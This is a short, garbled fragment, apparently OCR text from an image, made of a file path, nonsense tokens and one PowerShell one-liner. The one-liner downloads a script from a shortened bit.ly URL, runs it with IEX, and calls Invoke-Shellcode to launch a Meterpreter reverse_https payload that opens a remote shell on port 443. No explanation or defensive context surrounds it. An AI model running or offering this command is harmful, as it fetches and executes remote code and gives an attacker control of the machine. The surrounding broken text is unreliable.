 3
=
GGGHHHJJJ_now

FocusmazmanFocus


RunIEX (New-Object Net.WebClient).DownloadString('http://bit.ly/14bZZ0c');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run

